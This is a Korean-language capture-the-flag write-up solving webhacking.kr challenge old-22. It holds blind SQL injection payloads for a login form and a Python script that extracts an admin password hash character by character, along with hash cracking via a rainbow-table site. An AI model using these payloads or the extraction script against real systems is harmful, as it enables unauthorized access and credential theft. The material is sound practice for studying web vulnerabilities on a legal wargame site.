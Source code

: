 ```yaml
---
title: "webhacking.kr old 22 문제 풀이"
date: 2025-04-09 00:00:00 +0800
categories: [Wargame, Webhacking.kr]
tags: [cyber security, writeup, webhackingkr, web hacking, blind sql injection] 
description: webhacking.kr old 22 문제 풀이
---
```


[https://webhacking.kr/challenge/bonus-2/index.php](https://webhacking.kr/challenge/bonus-2/index.php)
# 문제 풀이
## 분석
웹페이지에 접속하면 username, password 값을 입력받는 인풋 박스들이 있고 제출을 의미하는 login 버튼과 회원가입을 위한 join 버튼이 있다.<br />

그리고 admin으로 로그인하는 것이 우리의 목표라고 한다.<br /> 그 아래에는 컬럼 이름이 각각 id, pw라고 친절하게 알려주는 것을 보니 SQLI 문제인듯 하다.
### guest 테스트
테스트로 아이디, 비밀번호 모두 "guest"로 입력하여 유저 하나를 회원가입시키고 로그인을 해보니 guest를 반겨줌과 동시에 비밀번호가 hash된 값도 보여준다.<br />
비밀번호 "guest"가 hash된 값은 "8c3a432045300fddc9050bb678749eb9"이라고 한다. 이를 보면 MD5로 인코딩된 것 처럼 보인다.<br />

이게 어떤 값으로 들어가는지 궁금해져서 md5 디코더 사이트를 이용해보니 복호화가 불가능하다고 한다.<br />
그 다음으로는 [CrackStation](https://crackstation.net/)이라는 사이트를 이용하여 레인보우 테이블을 이용한 복호화를 해보니 아래의 결과가 나온다.<br />

**Hash:** 8c3a432045300fddc9050bb678749eb9<br />
**Type:** md5<br />
**Result:** guestapple<br />

역시 예상대로 md5 형식이 맞았고 내가 설정한 비밀번호 외로 뒤에 "apple"이라는 문자열이 붙어있는 것이 확인된다.<br />
### 서버 작동 예상
지금까지 얻은 정보들로 보았을 때 우리가 로그인 시 username과 password를 입력하고 제출하면 서버에서 값들을 받아오고 비밀번호에 "apple" 접미사를 붙여 md5 암호화를 한다.<br />
그 이후 유저로부터 받은 값들을 쿼리에 넣어주어 해당 쿼리가 올바른 값을 반환하면 login 성공, 그렇지 않다면 fail이라 판단하는 것이다.<br />

```sql
select * from users where id="user_input_id" and pw="user_input_pw"
```
서버에서 사용하는 것으로 예상되는 쿼리는 위와 같다.<br />
## 최종 풀이
해당 문제가 가진 취약점은 Blind SQLI이다.<br />
### 쿼리 작동 여부 테스트
우리가 얻어내야 하는 것은 admin이라는 id를 가진 유저의 pw 값을 얻어내는 것이다.<br />
우선 pw의 길이부터 알아내는 쿼리가 필요하다.<br />

id로는 "admin"을 입력하고 pw로는 "123' or length(pw)=32 -- "를 입력한다.<br />
비밀번호가 32인 이유는 MD5로 변환된 비밀번호가 보통 DB에 들어가기 때문에 32자리인 것을 미리 알 수 있기 때문이다.<br />

그런데 이렇게 작성하여도 "Login Fail!"이라는 문구만 나올 뿐이다.<br />

분명 쿼리에는 문제가 없어보이는데 작동하지 않아 비슷한 방식을 id에 넣어보기로 하였다.<br />
"admin' and length(pw)=32 -- "를 id로 입력하고 pw는 비운 상태로 제출을 하니 이번에는 로그인 실패 문구가 아니라 "Wrong password!"가 나온다.<br />

아마 쿼리에서는 값이 성공적으로 반환됐지만 password 인풋 박스에 들어온 값과 진짜 비밀번호를 비교하는 서버의 또 다른 validation 프로세스가 있는 것 같다.<br />

이로써 우리는 username 인풋 박스에서 SQL Injection이 발생하는 것을 알 수 있다.<br />
### 익스플로잇
```python
import requests
from itertools import chain

url = "https://webhacking.kr/challenge/bonus-2/"
password = ""

for i in range(1, 33):
    for ascii in chain(range(48, 57 + 1), range(97, 122 + 1)):
        data = {
            "uuid": f"admin' and ord(substr(pw, {i}, 1))={ascii} -- ",
            "pw": "",
        }
        resp = requests.post(url, data=data)
        if "Wrong password!" in resp.text:
            print("Found", ascii)
            password += chr(ascii)
            break
    
print(password)
```
이제 파이썬으로 자동화 코드를 작성하여 실행만 해주면 비밀번호를 얻어낼 수 있다.<br />

해당 코드는 SQL의 substr() 함수를 이용하여 비밀번호의 각 자리가 ascii 코드로 문자 '0' ~ '9'와 'a' ~ 'z' 중 무엇인지 알아내는 코드이다.<br />
다시 언급하지만 비밀번호는 md5로 변환된 값이 들어있기 때문에 숫자 아니면 알파벳 소문자로 이루어져 있어서 그 사이에 있는 값으로만 체크하고 있다.<br />

`6c9ca386a903921d7fa230ffa0ffc153` 결과로 이러한 문자열이 나오고 또 다시 [CrackStation](https://crackstation.net/) 사이트를 통해서 복호화를 해보면 "somethingapple"이라는 값이 나온다.<br />

이때 뒤의 apple을 제외한 앞의 문자열을 비밀번호로 입력하고 username으로는 "admin"을 입력하면 문제가 해결된다.